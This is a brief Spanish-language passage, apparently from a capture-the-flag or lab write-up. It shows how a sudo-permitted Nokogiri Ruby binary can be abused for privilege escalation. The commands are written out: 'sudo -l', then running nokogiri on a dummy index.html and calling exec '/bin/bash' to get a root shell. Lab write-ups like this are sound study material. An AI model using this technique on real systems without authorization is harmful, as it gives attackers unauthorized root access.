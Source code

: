 Nokogiri es una biblioteca de software de código abierto para analizar HTML y XML en Ruby.

```
sudo -l
```

![[Pasted image 20250716123758.png]]

Como este progama está escrito en ruby, y en uno de sus parametros permite la ejecución de comandos.

```
touch index.html
sudo /usr/bin/nokogiri index.html
//Ahora debemos ejecutar una bash en ruby
exec "/bin/bash"
```

![[Pasted image 20250716124253.png]]
